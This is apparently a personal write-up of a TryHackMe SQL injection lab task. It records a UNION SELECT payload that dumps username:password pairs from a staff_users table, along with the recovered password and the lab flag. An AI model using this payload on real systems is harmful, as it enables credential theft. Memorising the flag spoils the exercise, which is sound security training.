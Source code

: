 # Level One – Error-Based SQLi (Task 5)

**Date recorded:** 
- 2025-09-23 

**Lab Objective:** 
- Enumerate usernames and passwords from the `staff_users` table using error-based SQLi.

**Payload used:**
```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users


markdown
Copy code

**Result:** Retrieved concatenated username:password values from staff_users. 


**Password recovered:** pa$$word  

**Flag Obtained:** THM{SQL_INJECTION_3840}

Notes: Performed in a safe TryHackMe environment. Error-based SQLi allowed enumeration of the table.

**Screenshots:**
![Level 1 Error-Based SQLi](./screenshot/level1/2025-09-23-Error-Based SQLi.png)


